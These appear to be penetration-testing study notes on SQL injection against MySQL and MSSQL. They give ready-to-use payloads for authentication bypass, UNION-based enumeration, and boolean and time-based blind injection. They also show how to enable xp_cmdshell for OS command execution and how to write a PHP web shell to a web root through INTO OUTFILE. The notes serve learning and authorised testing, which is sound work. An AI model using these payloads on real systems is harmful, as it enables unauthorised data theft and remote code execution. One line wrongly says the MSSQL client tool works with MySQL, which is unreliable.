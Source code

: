 # SQL Injection
```
SQL vulnerabilities typically allow the attacker to extend the original application query to include database tables that would normally be inaccessible.
```
### MySQL
- [MySQL Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- `MySQL` is one of the most commonly deployed database variants, along with `MariaDB`, an open-source fork of MySQL.
- `mysql` is a command-line tool that can be used to interact with MySQL instances.
### MSSQL
- [MSSQL Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- `MSSQL` is a database management system that natively integrates into the Windows ecosystem.
- A Windows built-in command-line tool named `SQLCMD` allows SQL queries to be run through the Windows command prompt or even remotely from another machine.
- `impacket-mssqlclient` is a command-line tool that can be used to interact with MySQL instances on Kali Linux.
	```bash 
	# where `-windows-auth` keyword forces NTLM authentication (as opposed to Kerberos).
	impacket-mssqlclient [Username]:[Password]@[IP Address] -windows-auth
	```
### Manual SQL Exploitation
```bash
# provides visibility on payload, and also adds some protection against any kind of whitespace truncation
name' OR 1=1 -- //
```
- <mark>In-Band SQLi</mark>:
	```
	SQL injection is considered `in-band` when the vulnerable application provides the result of the query along with the application-returned value. 
	```
	- <mark>Error-based</mark>: use the information disclosed in error messages to gain insights into the internal workings of the system, which can then be used to craft more targeted and effective attacks.
		- `' or 1=1 in (select @@version) -- //
			- Use subquery to display extra information
	- <mark>UNION-based</mark>: Whenever we are dealing with in-band SQL injections, we should also test for `UNION-based SQL` injections.
		- For `UNION` SQLi attacks to work, we first need to satisfy two conditions:
			1. Injected `UNION` query has to include the same number of columns as the original query.
			2. Data types need to be compatible between each column.
		- Before crafting any attack strategy, we need to know the exact number of columns present in the target table.
			- `' ORDER BY 1 -- //`: 
				- orders the results by a specific column and will fail whenever the selected column does not exist.
				- One can discover the actual column number by increasing the column value by one each time.
		- After finding out the column number of the target table. One can craft the corresponding payload.
			- `' UNION SELECT null, null, database(), user(), @@version  -- //`:
				- column 1 is typically reserved for the ID field consisting of an _integer_ data type. Hence, one needs to place enumerating functions to the right-most place, avoiding any type mismatches.
- <mark>Blind</mark>
	```
	scenarios in which "database responses" are never returned and behavior is inferred using either boolean or time-based logic.
	```
	- <mark>Boolean-based</mark>: cause the web application to return different results based on the truth value of a certain condition.
		- `offsec' AND 1=1 -- //`:
			- `1=1`will always be `TRUE`, the application will return the values only if the user is present in the database.
	- <mark>Time-based</mark>: infer the query results by instructing the database to wait for a specified amount of time.
		- `offsec' AND IF (1=1, sleep(3),'false') -- //`:
			- The `IF` statement will execute and wait for 3 seconds only when the user is present due to early termination of  `AND`.
### Manual/Automated Code Execution
```
Depending on the operating system, service privileges, and filesystem permissions, SQL injection vulnerabilities can be used to read and write files on the underlying operating system.
```
- <mark>MSSQL Manual Code Execution with xp_cmdshell</mark>: 
	- Requires Database Administration Privileges.
	- `xp_cmdshell` function takes a string and passes it to a command shell for execution. The function is disabled by default but can enable by the following commands:
		```bash
		EXECUTE sp_configure "show advanced options", 1;
		RECONFIGURE;
		EXECUTE sp_configure "xp_cmdshell", 1;
		RECONFIGURE;
		EXECUTE xp_cmdshell "whoami";
		```
		
	```
	1'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')waitfor delay '0:0:5' -- //
	```
- <mark>MySQL Manual Code Execution with ` SELECT INTO_OUTFILE`</mark>: 
	- File location must be writable to the OS user running the database software.
	- `' UNION SELECT "<?php system($_REQUEST['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
-  <mark>Postgresql Authenticated Code Execution</mark>:
	- `CVE-2019–9193`